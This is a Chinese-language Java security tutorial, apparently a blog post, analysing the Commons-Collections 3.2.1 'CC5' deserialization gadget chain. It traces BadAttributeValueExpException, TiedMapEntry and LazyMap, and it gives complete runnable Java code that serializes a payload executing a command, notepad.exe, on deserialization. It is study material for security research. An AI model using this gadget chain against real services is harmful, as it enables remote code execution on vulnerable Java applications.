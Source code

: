 ```yaml
---
title: Commons-Collections篇07-CC5链
date: 2025-9-29 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 环境搭建

- [JDK8u65](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html)
- [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)
- Maven 3.6.3
- Commons-Collections 3.2.1
- pom.xml加载Commons-Collections 依赖

```
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```

## 调用链

![image-20250929170847668](./Commons-Collections%E7%AF%8707-CC5%E9%93%BE/image-20250929170847668.png)

## 调用链分析

入口是`BadAttributeValueExpException.readObject()`，其中调用了`toString()`方法

if判断中，只要`val`不等于空，不是字符串，就可以绕过前两个if判断，进入到第二个`else if`中，就可以执行我们想要执行的`toSting()`方法

![image-20250929170737009](./Commons-Collections%E7%AF%8707-CC5%E9%93%BE/image-20250929170737009.png)

`TiedMapEntry`中有`toString`方法，并且调用了同名类下的`getValue()`

![image-20250929170536017](./Commons-Collections%E7%AF%8707-CC5%E9%93%BE/image-20250929170536017.png)

同名类下的`getValue()`方法调用了`get`方法()

![image-20250929170512848](./Commons-Collections%E7%AF%8707-CC5%E9%93%BE/image-20250929170512848.png)

后面就可以用`CC1链-LazyMap.get()`这条链了

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.omg.CORBA.CharSeqHelper;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform("aaa");
        HashMap hashMap = new HashMap();
        Map decoratemap = LazyMap.decorate(hashMap,chainedTransformer);

        Class lazymapclass = LazyMap.class;
        Method lazymapget = lazymapclass.getDeclaredMethod("get", Object.class);
        lazymapget.setAccessible(true);
        lazymapget.invoke(decoratemap,"aaa");
    }
}
```

# CC5链代码实现

## TiedMapEntry类调用get方法

都是`public`属性，可以直接调用，让参数`map`等于`decoratemap`即可

```java
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"aaa");
        tiedMapEntry.toString();
```

## BadAttributeValueExpException.readObject()

这里`BadAttributeValueExpException`的构造方法也是public，但是如果传入的参数不为空就会调用`toString()`方法，我们的目的是在`readObject`中调用`toString()`方法，所以在实例化时调用有参构造时就要传入空，然后再通过反射去修改`val`值

![image-20250929172534413](./Commons-Collections%E7%AF%8707-CC5%E9%93%BE/image-20250929172534413.png)

```java
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        Class badclass = badAttributeValueExpException.getClass();
        Field valfield = badclass.getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException,tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize();
```

## 完整代码

```java
package org.example;

import com.sun.xml.internal.ws.streaming.TidyXMLStreamReader;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.omg.CORBA.CharSeqHelper;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform("aaa");
        HashMap hashMap = new HashMap();
        Map decoratemap = LazyMap.decorate(hashMap,chainedTransformer);

        //为了实现LazyMap.get方法()
//        Class lazymapclass = LazyMap.class;
//        Method lazymapget = lazymapclass.getDeclaredMethod("get", Object.class);
//        lazymapget.setAccessible(true);
//        lazymapget.invoke(decoratemap,"aaa");

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"aaa");
//        tiedMapEntry.toString();
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

        Class badclass = badAttributeValueExpException.getClass();
        Field valfield = badclass.getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException,tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize();
    }
    public  static void serialize(Object obj) throws Exception{
        java.io.ObjectOutputStream objectOutputStream = new java.io.ObjectOutputStream(new java.io.FileOutputStream("cc5.ser"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static Object unserialize() throws Exception{
        java.io.ObjectInputStream objectInputStream = new java.io.ObjectInputStream(new java.io.FileInputStream("cc5.ser"));
        Object obj = objectInputStream.readObject();
        objectInputStream.close();
        return obj;
    }
}

```

